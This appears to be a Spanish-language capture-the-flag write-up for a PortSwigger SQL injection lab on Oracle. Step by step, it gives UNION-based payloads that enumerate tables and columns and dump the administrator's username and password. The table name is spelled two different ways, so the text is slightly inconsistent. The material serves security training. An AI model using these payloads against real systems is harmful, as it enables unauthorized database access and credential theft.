# PortSwigger - SQL injection


## Lab: SQL injection attack, listing the database contents on Oracle


## Solución

Primero hacemos click en el botón **Gifts** o en cualquier otro.



Como en los demás retos la SQL injection está en la url. 

Para comenzar a enumerar en Oracle siempre debemos especificar una tabla, pero como no conocemos ninguna usaremos [**dual**](https://docs.oracle.com/cd/B19306_01/server.102/b14200/queries009.htm).

```sql
' UNION SELECT null from dual-- -
```



Con un solo `null` la página nos devuelve un error, pero si seguimos agregando nos damos cuenta que existen 2 columnas.

```sql
' UNION SELECT null,null from dual-- -
```



Ahora es tiempo de enumerar el nombre de la tabla donde se encuentran las credenciales, para eso usaremos la tabla **all_tables** y seleccionaremos el nombre de las tablas con **table_name**.

```sql
' UNION SELECT table_name,null from all_tables-- -
```



Con `CTRL + f` escribimos **USERS** y podemos encontrar de manera más rapida la tabla que nos interesa `USERS_XKMLUO`.



Ahora enumeraremos los nombres de las columnas. Para eso usaremos la tabla `all_tab_columns`, le indicaremos que queremos la columna `column_name` y que nos muestro solo la tabla con nombre `USERS_XKMLUO`.

```sql
' UNION SELECT column_name,null from all_tab_columns where table_name = 'USERS_XKLMUO'-- -
```

- Ten en cuenta que la string después del guión bajo (`_XKLMUO`) es aleatorio para cada usuario, por lo tanto, la tuya será diferente a la mía. Además ten en consideración las mayúsculas, escribe la tabla y las columnas en maýusculas cuando corresponda. Finalmente ten cuidado con las comillas porque también puede darte error.


Podemos ver que nos devuelve los 2 nombres de las columnas `PASSWORD_UJZJJK` y `USERNAME_HIFSMI`.



Con esta información podemos terminar de construir nuestro query.

Primero reemplazamos los null por los nombres de las columnas y le indicamos sobre qué tabla debe sacar la información.

```sql
' UNION SELECT PASSWORD_UJZJJK,USERNAME_HIFSMI from USERS_XKLMUO-- -
```



Podemos ver las credenciales de la cuenta de administrador.



Hacemos click en el botón **My account**.



Ingresamos las credenciales.



Y resolvemos el laboratorio.



